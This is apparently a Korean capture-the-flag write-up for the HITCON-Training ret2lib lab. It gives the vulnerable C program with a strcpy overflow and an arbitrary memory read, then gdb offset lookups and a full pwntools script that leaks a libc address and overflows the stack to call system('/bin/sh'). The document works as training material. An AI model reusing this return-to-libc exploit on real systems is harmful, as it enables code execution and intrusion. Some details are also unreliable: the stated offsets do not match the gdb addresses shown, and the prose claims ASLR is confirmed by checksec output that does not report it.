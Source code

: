 lab4
====
먼저 문제에서 제공하는 c 파일을 열어보자.
```
#include <stdio.h>

void See_something(unsigned int addr){
	int *address ;
	address = (int *)addr ;
	printf("The content of the address : %p\n",*address);
};

void Print_message(char *mesg){
	char buf[48];
	strcpy(buf,mesg);
	printf("Your message is : %s",buf);
}

int main(){
	char address[10] ;
	char message[256];
	unsigned int addr ;
	puts("###############################");
	puts("Do you know return to library ?");
	puts("###############################");
	puts("What do you want to see in memory?");
	printf("Give me an address (in dec) :");
	fflush(stdout);
	read(0,address,10);
	addr = strtol(address);
	See_something(addr) ;
	printf("Leave some message for me :");
	fflush(stdout);
	read(0,message,256);
	Print_message(message);
	puts("Thanks you ~");
	return 0 ;
}
```
이번 프로그램은 특정한 주소를 입력하면 그 주소안에 들어있는 값을 출력해주고   
메세지를 입력받아 그것을 출력해주는 프로그램으로 보인다.

```
root@kali:~/HITCON-Training/LAB/lab4# checksec ./ret2lib
[*] '/root/HITCON-Training/LAB/lab4/ret2lib'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
확인한 결과 ASLR과 NX bit가 걸려있다.

read 함수가 호출된 이후 read의 got에는 실제 함수 주소를 가리키게 되므로 pwntool을 이용하여 got주소를 구하고   
이 주소를 프로그램에 넣어주면 `The content of the address :` 이와 같은 문구와 함께 실제 주소를 알려줄 것이다.  

ASLR이 걸려 있으므로 gdb를 통하여 system 함수의 offset과 "/bin/sh"문자열의 offset을 구하고 위의 주소와 계산을 해주면 실제 함수 주소를 구할 수 있다.
```
gdb-peda$ x/wx read
0xf7eb4ea0 <read>:	0xec835356
gdb-peda$ x/wx system
0xf7e0b9e0 <system>:	0x0f9148e8
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f4baaa ("/bin/sh")
```

system함수의 offset은 `a94c0`이고 bin/sh의 offset은 `96c0a`이다.


이제 payload를 만들어주면 끝이다.  
60개의 dummy를 넣고, system함수의 주소와 가상의 리턴 주소값(dummy) 그리고 system함수의 인자를 넣어주면 된다.

```
from pwn import*

p = process('./ret2lib')
e = ELF('./ret2lib')

read_got = e.got["read"]

p.recvuntil(":")
p.send(str(read_got))

read_addr = p.recvline()
read_addr = int(read_addr.split(":")[1].strip(), 16)

sys_off = 0xa94c0
binsh_off = 0x96c0a

sys_addr = read_addr - sys_off
binsh_addr = read_addr + binsh_off

pl = ''
pl += 'a'*60
pl += p32(sys_addr)
pl += 'a'*4
pl += p32(binsh_addr)

p.recvuntil(':')
p.send(pl)
p.interactive()
```

